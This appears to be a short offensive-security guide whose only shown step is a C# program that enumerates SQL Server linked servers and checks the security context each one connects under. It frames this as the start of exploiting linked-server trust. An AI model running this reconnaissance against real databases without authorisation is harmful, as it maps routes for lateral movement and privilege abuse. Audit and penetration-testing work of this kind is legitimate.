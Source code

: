 ### **Exploiting Linked Security Context Using C#**

#### 1. **Enumerate Linked Servers**

In C#, you can use the `System.Data.SqlClient` namespace to connect to SQL Server and enumerate linked servers.

```csharp
using System;
using System.Data.SqlClient;

class Program
{
    static void Main()
    {
        string connectionString = "Server=your_sql_server_instance;Integrated Security=True;";
        using (SqlConnection connection = new SqlConnection(connectionString))
        {
            connection.Open();

            // Enumerate linked servers
            string query = "EXEC sp_linkedservers";
            using (SqlCommand command = new SqlCommand(query, connection))
            using (SqlDataReader reader = command.ExecuteReader())
            {
                while (reader.Read())
                {
                    string linkedServerName = reader["SRV_NAME"].ToString();
                    Console.WriteLine($"Linked Server: {linkedServerName}");

                    // Test connection to linked server
                    TestLinkedServerConnection(connection, linkedServerName);
                }
            }
        }
    }

    static void TestLinkedServerConnection(SqlConnection connection, string linkedServerName)
    {
        string query = $"SELECT SYSTEM_USER AS CurrentUser, SESSION_USER AS SessionUser FROM [{linkedServerName}].master.sys.databases";
        using (SqlCommand command = new SqlCommand(query, connection))
        {
            try
            {
                using (SqlDataReader reader = command.ExecuteReader())
                {
                    while (reader.Read())
                    {
                        Console.WriteLine($"Connected to {linkedServerName} as {reader["CurrentUser"]} / {reader["SessionUser"]}");
                    }
                }
            }
            catch (Exception ex)
            {
                Console.WriteLine($"Failed to connect to {linkedServerName}: {ex.Message}");
            }
        }
    }
}
```

